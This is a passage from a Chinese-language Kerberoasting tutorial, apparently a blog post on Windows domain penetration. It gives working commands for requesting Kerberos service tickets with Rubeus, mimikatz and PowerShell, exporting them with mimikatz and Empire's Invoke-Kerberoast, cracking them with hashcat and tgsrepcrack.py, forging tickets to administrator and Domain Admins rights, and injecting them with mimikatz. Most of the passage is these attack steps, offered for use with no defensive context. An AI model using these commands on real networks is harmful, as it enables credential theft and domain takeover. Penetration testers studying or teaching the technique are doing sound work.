 即可

2.kerberoast工具集的GetUserSpns powershell脚本

3.2 How to get HASH

如何得到hash？
有如下方法

1.Rubeus.exe
这个工具github上就有，但是clone下来后需要自己编译成exe.
然后执行 Rubeus.exe kerberoast指令即可

2.mimikatz
mimikatz真的神器。
通过命令 kerberos::ask /target:你所指定的SPN,
即可通过认证的方式得到一个ST。
然后我们在kerberos::list里可以看到我们想要的ST

3.powershell
越来越发现powershell在域渗透中的重要性了
输入以下指令，即可完成HASH获取
Default
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306/MySQL"

然后mimikatz导出即可

3.3 How to export hash
获得了ST票据，但怎么导出？

1.mimikatz
导出所有票据
可以发现生成了kirbi文件。这就是我们所需要的hash了

2.Empire Powershell 框架
github:https://github.com/EmpireProject/Empire
我们通过这个框架可以导出hashcat格式的hash.
Default
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat

3.4 How to crack HASH
如何破解HASH?

1.HASHCAT
这个工具需要让hash格式为hashcat模式才能进行破解。kribi文件不能放入hashcat进行破解.
Default
hashcat -m 13110 pass.txt hash.txt

2.kerberoast中的tgsrepcrack.py
支持kribi文件破解
Default
python3 tgsrepcrack.py pass.txt xxx.kribi

3.5 How to use Kerberoast
既然我们都把ST的加密hash都破解了，那么我们就可以随便改ST中的票据内容了..\ 这里使用的是kerberoast工具集里的kerberoast.py
Default
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
## 将票据权限改为administrator
kerberos::ptt PENTESTLAB.kirbi  #将票据注入到内存
